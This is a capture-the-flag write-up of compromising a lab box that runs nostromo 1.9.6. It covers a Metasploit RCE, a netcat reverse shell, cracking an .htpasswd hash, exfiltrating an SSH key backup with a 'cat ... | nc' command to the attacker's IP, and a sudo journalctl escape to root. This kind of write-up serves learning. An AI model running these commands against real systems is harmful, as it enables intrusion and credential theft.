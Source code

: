 # First steps

As usual Got my nmap running 

![image](https://user-images.githubusercontent.com/84482765/126080080-b9f14ed0-6864-456a-b119-980ef1d8b71f.png)

![image](https://user-images.githubusercontent.com/84482765/126080087-9fa8f445-ceca-42a4-af92-73b0b3873b27.png)

I noticed port 80 so went over to my browser to check the website, but nothing unusual there i saw. 

While i check the website i run dirb, dirbuster, nikto and rapidscan to get some more info. But again, nothing interesting in the website. 
I tried messing with the contact information areas to see if XSS was possible but it was disabled.

Looked back at the nmap result and saw the HTTP header as "nostromo 1.9.6" so i used searchsploit to see if there was anything already there. And there was one found vulnerability.
The vulnerability is for RCE. So i run my msfconsole and set up the options for this vulnerability.

It worked. now i can use RCE so now i need a reverse shell. 
To make it easier for me i wanted to test this website i found: "https://www.revshells.com/"
With it it makes way simpler to test multiple codes for the reverse shell. 
using the "bash -i" code with my info, i set up netcat listener and pop the code over metasploit. 

![image](https://user-images.githubusercontent.com/84482765/126080443-3f6c2808-96bb-47e3-9ed1-a0ae14bca2e8.png)

I start poking around and looking trough the folders. Found user called "David" but since i'm "www-data" so i need some sort of privilege excalation to get David.

I use a tool called "linpeas" to get more info about the system and a way to priv esc.
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Using the "without curl" method, since in that reverse shell i can't use curl, i upload the linpeas.sh file to the server and run it. 

Among the HUGE amount of information that this script show me i found a particular file interesting.

![image](https://user-images.githubusercontent.com/84482765/126080605-283b02c3-1fa0-4ac5-b7d1-8634758407a2.png)


At this point i just want to say a quick FYI. I'm making these write ups mostly to help myself learn and try to understand what i did. I don't put here all the research i do, because most of the time is just a dead end.
I just assume one thing to be what i think it is and move on. If it is not what I tought it was just go back to first step, research and try something diferent.

Moving on...

I assume this is probably a way to use SSH to enter as this user. So i try to decode this hash and get the password.
My first try was with "HASHCAT". But after a few hours trying to get it to work because, what i presume to be, a hardware incompability and/or missing "watchdog" program to monitor my hardware, it just refuse to work.

So i try with "john the ripper" and it was done way faster than i thought. 

![image](https://user-images.githubusercontent.com/84482765/126080833-780065d5-50dd-4f88-a99d-f575a810b050.png)

From what i found about this .htpasswd, it stores apache credentials. So i tested "hydra" to make sure i got it right.

![image](https://user-images.githubusercontent.com/84482765/126082316-959d3d31-ff5f-48ed-a5ac-51db8b25cbdc.png)

I assume i could use it to connect via SSH but that was a dead end.
At this point i spent another couple of hours trying to do something with what i found, with no success. I found the user flag for this box accidentally.
I imagine that somebody else left some files in the tmp folder and inside one of these files, among other information, was the user.txt file. So yeah... 
I got the user flag. But i'm not satisfied with that. So i keep going.

Not gonna lie, i got stuck pretty bad here.

I whent back to that linpeas result. Back to that place where i found the .htpasswd file. I saw it was inside /var/nostromo/conf. So i move tho this folder to check things out.

![image](https://user-images.githubusercontent.com/84482765/126085386-b4c0ccc0-0e65-444f-b0aa-cdc4856d21b7.png)

this file "nhttpd.conf" looks interesting


![image](https://user-images.githubusercontent.com/84482765/126085406-a5fb096a-cfba-483e-a44a-21fbbf684ea5.png)

Expecially that final part. 
"HOMEDIRS"

since i know the user is david i try going to that folder :"/home/david/public_www". which surprisingly have read permission for me. Even though it is inside "david" user.

![image](https://user-images.githubusercontent.com/84482765/126085509-df736cad-d63d-489d-b9dd-cb0726002129.png)

Funny enough the file .htaccess is just david telling me to KEEP OUT. So i think i'm in the right path ahahaha
Also inside this folder there is a file called "backup-ssh-identity-files.tgz" so i try getting this file to see what is inside 
I set up a listener using on my machine

     nc -lnvp 443 > backup-identity-files.tgz.b64

and on the server

    cat backup-ssh-identity-files.tgz | nc 10.10.14.65 443 

After uncompressing the file using

    tar -zxvf backup-ssh-identity-files.tgz  
    
it had a few files inside /home/david/.ssh

![image](https://user-images.githubusercontent.com/84482765/126085910-22dc3a06-53bf-4d56-9803-6d0b1e5c8afc.png)


I tried using "john" again to decode the RSA key.

![image](https://user-images.githubusercontent.com/84482765/126086412-e28b2c9f-4b9d-47ea-8f35-d479bd21bce3.png)

But i dont think i really had to do it. Because i can just connect via SSH using this RSA file.

![image](https://user-images.githubusercontent.com/84482765/126086488-eafef4ba-e130-4789-aeb0-7858e0f18c63.png)

It asked for a password, but i think i just setting up my own. but just in case i used the same password i found from "john"

And there it was. Loged in as david! FINALLY! it took me way to long to find it haahahah. But i guess thats how it is in the beginning.

So there it is. Now i have the user flag legitimately

![image](https://user-images.githubusercontent.com/84482765/126086583-9496532c-1777-43e8-a097-f2a91cf95104.png)


# Root Flag

ok... now for the root flag.


OMFG how i overcomplicate stuff. The past hour or so i've been just going around in circles even though basically the FIRST thing i found was the way to go.
So let me start from the beggining.

The first thing i do is use 
 
    sudo -l
    
With it i may be able to see some commands i can try to exploit to get root console. 
But it ask for david password. I use both passwords i found so far (.htpasswd and id_rsa), but both don't work. so i need to find a work around.

I run linpeas again. I still have the .sh file from before, so i just run it again, but now as david. so i might get better stuff.
Right at the beggining of the linpeas report i have this:

![image](https://user-images.githubusercontent.com/84482765/126091225-a0c23517-857a-48df-b444-60c2bed75045.png)

So there is something interesting in this folder.

Going there i see a few files, but the interesting one is called "server-stats.sh"
Runing this file i get this:

![image](https://user-images.githubusercontent.com/84482765/126091376-78d528aa-b990-4a1b-a0a9-dd11bb11d6f9.png)

But by reading the content of the file itself i see something interesting.

![image](https://user-images.githubusercontent.com/84482765/126091444-a51b9c82-9475-4d0b-8b08-e64ac131d556.png)

The script calls for sudo and the command "journalctl". But when i ran this code it didn't ask me for any password. So i guess David is listed in sudoers for this command.

At this stage i experimented a bit and went another rabbit hole that made me go far from what i needed to do.
since i know the command i looked into GTFObins for it and the only thing there for this command was

    journalcrl
    !/bin/bash

so it is pretty simple.
I did a few mistakes. Tried changing the script and runing it again but didn't quite work. 

Eventually i did what i needed to do, which was copying the entire code before the pipe and runing it.

    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    
this basically showed me the results from the script. BUT it didn't just end there, i could still write. So i wrote what i saw in the GTFObins website "!/bin/bash"

And that was it... It spawned root console for me.

![image](https://user-images.githubusercontent.com/84482765/126092040-69f3b466-fe74-466d-833f-9cb6212cd940.png)





# Conclusion

Overall box was pretty simple. Even though took me the entire day to do it. I spend too much researching and finding interesting posts, news, documents, exploits and stuff.
But thanks to this box i was able to explore LINPEAS a little more and test diferent ways to file transfer between my machine and the server machine. 
I did strugle if this kind of stuff before. But now i know a few diferent ways to do it. Using SSH, netcat, python simpleserver, wget and curl. 
I also found other scripts that did similar things to linpeas and tried a couple of them on this box. I recomend checking out: https://www.hackingarticles.in/linux-privilege-escalation-automated-script/













